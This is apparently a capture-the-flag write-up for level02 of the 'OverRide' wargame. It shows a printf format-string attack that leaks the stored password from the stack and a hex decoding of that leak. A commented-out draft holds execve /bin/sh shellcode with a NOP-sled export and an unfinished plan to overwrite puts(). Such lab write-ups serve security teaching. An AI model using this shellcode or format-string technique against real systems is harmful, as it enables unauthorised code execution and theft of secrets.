 # Level 02
*password : PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv*

## Analyze

```
scp -P 4242 level02@192.168.56.109:level02 binary/
```

## printf exploit ?

<!-- use printf to overwrite the return of `puts()` with our shellcode ?

shellcode : `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80`
```
$ export SHELLCODE=$(python -c 'print "\x90" * 200 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"')
```
```
$ scp -P 4242 level02/Ressources/getenv.c  level02@192.168.56.109:/tmp/
```
```
$ cd /tmp
$ gcc getenv.c
$ cd -
/home/users/level02
$ level02@OverRide:~$ /tmp/a.out

0x7fffffffe822
```
- 7FFFFF : 8388607
- FFE822 : 16771106
16771106 - 8388603
8382495

puts() address : 0x0000000000200b5a
python -c 'print "\x5a\x0b\x20" %8388604x %hn %8382496x %hn"' -->

offset = 22\
40 / 8 = 5
```
level02@OverRide:~$ python -c 'print " %22$p %23$p %24$p %25$p %26$p"' > /tmp/level02 ; cat /tmp/level02 | ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d does not have access!
level02@OverRide:~$ 
```

0x756e505234376848 => 4868373452506e75 = Hh74RPnu\
0x45414a3561733951 => 51397361354a4145 = Q9sa5JAE\
0x377a7143574e6758 => 58674e5743717a37 = XgNWCqz7\
0x354a35686e475873 => 7358476e68354a35 = sXGnh5J5\
0x48336750664b394d => 4d394b6650673348 = M9KfPg3H

password: `Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`
